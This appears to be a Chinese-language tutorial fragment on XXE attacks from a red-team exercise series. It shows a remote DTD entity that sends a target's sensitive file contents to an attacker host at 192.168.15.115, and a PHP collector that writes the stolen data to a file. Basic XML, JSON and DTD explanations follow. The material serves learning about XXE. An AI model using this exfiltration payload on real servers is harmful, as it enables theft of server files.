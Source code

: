 ![image-20241202004408847](HVV护网专题/image-20241202004408847.png)	

```
这是remote.dtd的源码，主要是把%file的数据，即敏感文件的数据发送到这个攻击机提供的网站下。
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.15.115/fuzhu/get.php?file=%file;'>">
```

```
get.php攻击机网站也很简单，源码如下，即把收到get请求的数据，写入到文件当中。
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>
```

```
以下是XXE的一些相关知识。
XML主要两个用途：
1.配置文件：层级分明 结构清晰 
2.在不同的系统之间交换数据

<?xml version="1.0" encoding="ISO-8859-1"?> //第一行为xml的声明，定义了xml的版本和使用的编码
<note>     //文档的根元素，下面四行为根元素下的四个子元素
  <to>大黄</to>
  <from>大壮</from>
  <heading>村头集合</heading>
  <body>有妹子!</body>
</note>
"阳光，开朗，大男孩"
<person name="阳光" character="开朗" result="大男孩">

<person>
     <name value="阳光" />
     <character value="开朗">
     <result value="大男孩">
</person>

json
{
    “name”:"阳光",
     "chatacter":"开朗"，
      "result": "大男孩"
}
DTD作用：
1.通过DTD，每一个XML文件均可以携带一个自身相关的描述
2.验证数据
3.交换数据
```
